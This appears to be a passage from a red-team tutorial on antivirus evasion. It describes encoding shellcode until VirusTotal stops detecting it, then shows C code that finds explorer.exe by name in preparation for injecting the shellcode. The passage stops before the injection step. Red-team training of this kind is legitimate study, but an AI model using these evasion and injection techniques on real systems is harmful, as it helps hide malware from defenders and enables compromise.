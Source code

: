 ![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Images/Screen21.png?raw=true)

Test this raw payload on virus total.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Images/Screen22.png?raw=true)

No antivirus identifies it, but to make things clear here, until now we are working with a raw payload which is only the shellcode, not a full working executable file.

Now we will take this new undetectable shellcode and inject it inside a process in windows, and in this case, we will inject it inside explorer.exe process.

The first part of the code is the GetProcId function, its main purpose to give it the process name and it will communicate with the operating system to find the process id of this process.

```
DWORD ProcId = 0;

int GetProcId(char* ProcName)
{
	PROCESSENTRY32 pe32;
	HANDLE hSnapshot = NULL;
	pe32.dwSize = sizeof( PROCESSENTRY32 );
	hSnapshot = CreateToolhelp32Snapshot( TH32CS_SNAPPROCESS, 0 );
	if ( Process32First( hSnapshot, &pe32 ) )
	{
		do{
			if( strcmp( pe32.szExeFile, ProcName ) == 0 )
				break;
		}while( Process32Next( hSnapshot, &pe32 ) );
	}

	if( hSnapshot != INVALID_HANDLE_VALUE )
		CloseHandle( hSnapshot );

	ProcId = pe32.th32ProcessID;
	return ProcId;
}
```

The second part is an iteration over the encoded shellcode to decode it by subtracting one from every byte.

```
int main(int argc, char **argv){

	int process_id;	
	char* ProcName;
	ProcName = "explorer.exe";
	process_id = GetProcId(ProcName);
	printf("Process ID is %d\n", process_id);

```